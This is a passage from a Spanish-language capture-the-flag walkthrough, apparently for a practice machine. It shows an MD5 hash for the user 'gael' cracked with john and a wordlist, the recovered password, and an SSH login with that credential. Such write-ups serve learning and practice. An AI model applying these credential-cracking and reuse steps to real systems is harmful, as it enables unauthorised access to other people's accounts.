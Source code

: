 ```
7e3a2280-5e3b-4775-85ae-734f6d447ccb|7e3a2280-5e3b-4775-85ae-734f6d447ccb.h5|6
7a4f8323-5f16-47f1-8493-65df97fdee55|7a4f8323-5f16-47f1-8493-65df97fdee55.h5|7
ab3aa995-c874-4a29-a8dc-817b552a2c0a|ab3aa995-c874-4a29-a8dc-817b552a2c0a.h5|11
569f7a09-16a3-4a8e-a433-cd829174b757|569f7a09-16a3-4a8e-a433-cd829174b757.h5|12
```

Veremos varias cosas interesantes, entre ellas en los usuarios veremos uno que existe a nivel de sistema llamado `gael`, vamos a intentar `crackear` ese `MD5` a ver si lo conseguimos.

> hash

```
gael:c99175974b6e192936d97224638a34f8
```

Ahora vamos a utilizar `john` para intentar `crackearlo`:

```shell
john --format=raw-md5 --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
mattp005numbertwo (gael)     
1g 0:00:00:00 DONE (2025-09-17 07:21) 4.347g/s 24875Kp/s 24875Kc/s 24875KC/s mattpapa..mattne
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado, por lo que vamos a probarlo directamente por `SSH` a ver si conseguimos entrar con dichas credenciales.

### SSH

```shell
ssh gael@<IP>
```

Metemos como contraseña `mattp005numbertwo`...

```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 17 Sep 2025 11:22:12 AM UTC

  System load:           0.14
  Usage of /:            75.0% of 7.53GB
  Memory usage:          36%
  Swap usage:            0%
  Processes:             243
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.74
  IPv6 address for eth0: dead:beef::250:56ff:fe94:7980


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
```